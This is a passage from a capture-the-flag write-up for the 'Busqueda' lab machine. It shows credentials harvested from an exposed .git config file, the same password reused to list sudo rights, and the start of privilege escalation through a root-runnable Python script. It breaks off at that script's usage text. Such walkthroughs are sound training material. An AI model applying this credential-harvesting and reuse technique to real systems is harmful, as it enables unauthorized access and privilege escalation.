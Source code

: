 
### Post Exploitation

So we don't have the password of the given `svc` user, after enumerating a little bit you can find the `/var/www/app/.git` directory after there are a couple of files and stuff we can explore I started with the config file because it's always the most interesting.

```

svc@busqueda:/var/www/app/.git$ cat config 
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
svc@busqueda:/var/www/app/.git$ sudo -l 
[sudo] password for svc: jh1usoih2bkjaspwe92
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *

```

We find here a couple of things the first, there is a new subdomain that we can explore, the second, we have the credentials to this domain, and the third this same password works for our `svc` user so we can see our sudo permissions.

```
Credentials:
cody:jh1usoih2bkjaspwe92
svc:jh1usoih2bkjaspwe92

```

When entering the gitea server, there is nothing for us we can enter as cody and see the searcher.htb app source code, but we could do that before. There is one interesting thing here thought, and it's the Administrator user, we know he can do stuff that we can't and maybe he even has a private repository that will help us going forward.

### Privilege Escalation 

So we can see we can run the following python script as root: `/opt/scripts/system-checkup.py` 

```

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py sdfdfd
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

```
